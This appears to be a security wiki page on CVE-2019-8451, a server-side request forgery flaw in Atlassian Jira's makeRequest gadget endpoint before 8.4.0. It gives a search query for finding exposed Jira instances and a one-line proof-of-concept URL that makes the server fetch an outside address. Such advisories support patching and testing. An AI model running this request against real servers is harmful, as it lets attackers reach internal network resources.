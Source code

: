 # Atlassian Jira makeRequest SSRF vulnerability CVE-2019-8451

## Vulnerability Description

Jira's /plugins/servlet/gadgets/makeRequest resource has an SSRF vulnerability because of the logical flaw of JiraWhitelist. Remote attackers who successfully exploit this vulnerability can access intranet resources as Jira server. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Jira  <8.4.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-JIRA"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385-20220430132316629.png)

Verify POC

```java
/plugins/servlet/gadgets/makeRequest?url=https://目标IP@www.baidu.com/robots.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651296061837-7e8e8f44-15e8-46c4-96f4-62fbe1602493.png)